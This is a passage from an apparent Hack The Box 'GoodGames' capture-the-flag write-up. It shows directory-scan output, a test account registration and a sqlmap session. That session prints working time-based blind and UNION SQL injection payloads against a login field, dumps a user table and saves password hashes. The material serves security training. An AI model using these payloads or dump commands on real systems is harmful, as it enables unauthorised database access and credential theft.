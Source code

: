 ```bash
profile                 [Status: 200, Size: 9267, Words: 2093, Lines: 267]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
signup                  [Status: 200, Size: 33387, Words: 11042, Lines: 728]
:: Progress: [18456/18456] :: Job [1/1] :: 228 req/sec :: Duration: [0:01:25] :: Errors: 0 ::
```



### Registering User
Credentials
=>ID: baba@goodgames.htb
=> Nickname: baba
=>password: babayaga

### SQL Injection
{{<figure src="/images/goodgames/sqlinjection.png" title="SQLi">}}




### SQLMAP 
```bash
┌─[babayaga@babayaga-virtualbox]─[~/Desktop/HTB/Linux/GoodGames]
└──╼ $sqlmap -r sql.req -D main -T user --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.12#stable}
|_ -| . ["]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:42:37 /2022-03-11/

[06:42:37] [INFO] parsing HTTP request from 'sql.req'
[06:42:37] [INFO] resuming back-end DBMS 'mysql' 
[06:42:37] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@g' AND (SELECT 3438 FROM (SELECT(SLEEP(5)))CGuJ) AND 'EDkT'='EDkT&password=asdf

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=admin@g' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7178717071,0x78646d59516d755669565765504650446b48616178556e53764c514870784673454c544143556b4c,0x71706b6a71)-- -&password=asdf
---
[06:42:38] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[06:42:38] [INFO] fetching columns for table 'user' in database 'main'
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[06:42:41] [INFO] fetching entries for table 'user' in database 'main'
[06:42:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[06:42:50] [INFO] writing hashes to a temporary file '/tmp/sqlmaps_wjqdle74903/sqlmaphashes-aem5wjwr.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
```